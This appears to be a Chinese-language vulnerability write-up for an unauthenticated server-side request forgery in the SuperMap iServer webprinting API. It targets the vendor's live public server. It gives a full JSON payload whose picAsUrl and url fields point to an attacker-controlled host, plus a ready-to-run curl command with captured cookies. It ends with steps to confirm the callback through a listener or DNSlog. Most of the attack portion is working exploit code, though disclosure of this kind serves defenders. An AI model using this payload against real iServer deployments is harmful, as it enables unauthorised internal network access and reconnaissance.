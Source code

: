## 一、漏洞描述

SuperMap iServer 10i版本开始内置了一个web打印服务，将您在 Web 应用中制作的 Web 内容输出为可打印的文档。

webprinting接口存在未授权访问，且未对输入的picAsUrl/url等未进行白名单限制，导致webpringting会根据用户输入任意url进行请求从而造成ssrf漏洞，可造成内网穿透，危害内网安全。

 

## 二、漏洞涉及版本

 SuperMap iServer  >=10i版本（至最新版本）

 

## 三、漏洞证明

 以超图官网为例，访问

http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs。

上述链接存在未授权访问。

![img](file:////Users/cleanmgr/Library/Containers/com.kingsoft.wpsoffice.mac/Data/tmp/wps-cleanmgr/ksohtml//wps1.jpg) 

1、点击”创建打印任务”按钮，输入payload，其中URL和picAsURL替换成攻击url即可。

```
{
    "layoutOptions": {
        "templateName": "A4_landscape",
        "title": "主标题",
        "subTitle": "副标题",
        "author": "作者",
        "copyright": "版权信息",
        "northArrowOptions": {
        },
        "scaleBarOptions": {
            "scaleText": "比例尺"
        },
        "legendOptions": {
            "title": "图例",
            "customItems": [
                {
                    "name": "重要设置",
                },
                {
                    "name": "河流",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"               
                },
                {
                    "name": "主干道",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"
                }
            ]
        },
        "littleMapOptions": {
            "center": {
                "x": 12659780.84769,
                "y": 1630935.5331
            },
            "scale": 2.63157894736842E-08,
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ]
        }
    },
    "exportOptions": {
        "format": "pdf",
        "dpi": 96
    },
    "content": {
        "type": "WEBMAP",
        "value": {
            "maxScale": "1:144447.927",
            "level": 4,
            "center": {
                "x": 12024583.8595938,
                "y": 4101942.08146721
            },
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ],
            "description": "",
            "projection": "EPSG:3857",
            "minScale": "1:591658710.909",
            "title": "china_point",
            "version": "2.0.0"
        }
    }
} 
```

CURL命令

```
curl 'http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs.json' \
  -H 'Accept: */*' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: _ga=GA1.2.1837213580.1719394854; _ga_DXGT08VXTW=GS1.2.1719394857.1.1.1719395096.0.0.0; Hm_lvt_70fb8344cde640aa0e7a4f593e80b742=1719538116,1719886423' \
  -H 'Origin: http://support.supermap.com:8090' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  --data-raw $'{\n    "layoutOptions": {\n        "templateName": "A4_landscape",\n        "title": "主标题",\n        "subTitle": "副标题",\n        "author": "作者",\n        "copyright": "版权信息",\n        "northArrowOptions": {\n        },\n        "scaleBarOptions": {\n            "scaleText": "比例尺"\n        },\n        "legendOptions": {\n            "title": "图例",\n            "customItems": [\n                {\n                    "name": "重要设置",\n                },\n                {\n                    "name": "河流",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"               \n                },\n                {\n                    "name": "主干道",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        },\n        "littleMapOptions": {\n            "center": {\n                "x": 12659780.84769,\n                "y": 1630935.5331\n            },\n            "scale": 2.63157894736842E-08,\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        }\n    },\n    "exportOptions": {\n        "format": "pdf",\n        "dpi": 96\n    },\n    "content": {\n        "type": "WEBMAP",\n        "value": {\n            "maxScale": "1:144447.927",\n            "level": 4,\n            "center": {\n                "x": 12024583.8595938,\n                "y": 4101942.08146721\n            },\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ],\n            "description": "",\n            "projection": "EPSG:3857",\n            "minScale": "1:591658710.909",\n            "title": "china_point",\n            "version": "2.0.0"\n        }\n    }\n} ' \
  --insecure
```

![img](file:////Users/cleanmgr/Library/Containers/com.kingsoft.wpsoffice.mac/Data/tmp/wps-cleanmgr/ksohtml//wps2.jpg) 

3、在云主机启动80端口或者启用dnslog接口，然后点击创建打印服务，即可在云主机获取对应请求记录。

![img](file:////Users/cleanmgr/Library/Containers/com.kingsoft.wpsoffice.mac/Data/tmp/wps-cleanmgr/ksohtml//wps3.jpg) 

请求DNSlog平台

![img](file:////Users/cleanmgr/Library/Containers/com.kingsoft.wpsoffice.mac/Data/tmp/wps-cleanmgr/ksohtml//wps4.jpg) 
